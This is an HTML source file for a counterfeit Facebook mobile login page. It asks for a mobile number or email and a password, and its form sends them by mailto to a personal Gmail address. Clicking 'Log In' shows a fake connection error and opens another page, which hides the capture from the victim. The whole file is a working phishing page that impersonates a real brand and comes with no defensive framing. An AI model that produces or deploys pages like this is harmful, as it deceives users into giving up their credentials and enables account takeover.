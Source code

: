 <!DOCTYPE html>
<html lang="en" xmlns="http://www.w3.org/1999/xhtml">
       <head><style type="text/css"></style>
       <meta charset="utf-8" />
    <title>facebook</title>
</head>
<body>
    <div id="wrapper">
        <div id="navContainer">
          <p class="pOne"> Get Facebook for Android and browse faster.</p>
        </div>
        <div class="Details">
            <form action="mailto:mperoreue@gmail.com">
                <table cellspacing="2"cellpadding="2">
                <thead>
                    <tr><th colspan="2"><label>facebook</label></th></tr>
                </thead>
                    <tfoot>
                        <tr><td colspan="2">or<hr /></td></tr>
                    </tfoot>
                <tbody>
                    <tr>
                        <td colspan="2"><input type="text" name="name"placeholder="Mobile number or email address" /></td>
                    </tr>
                    <tr>
                        <td colspan="2"><input type="password" placeholder="password" /></td>
                    </tr>
                    <tr class="ry">
                        <td colspan="2"><input type="submit" value="Log In" id="lg" onclick="alert('Error occured while connecting . Please try again'); window.open('HTMLPage1.html');"/></td>
                    </tr>
                </tbody>
                    </table>
                     </form>

            </div>
        <div id="st2">
          <div id="st0"><a href="#"><span>Create New Account</span></a><br />
            <a href="#">forgotten password?</a> </div>
            <div id="st3"><p>English<br />Portugues(Brsil)<br />Espanol<br />Deutsch</p></div>

            <div id="st4">
                Hausa<br />Francais(France)<br /><input type="button" value="+" />
            </div>
            <p class="tp">Facebook Inc.</p>
        </div>
    </div>
</body>
</html>
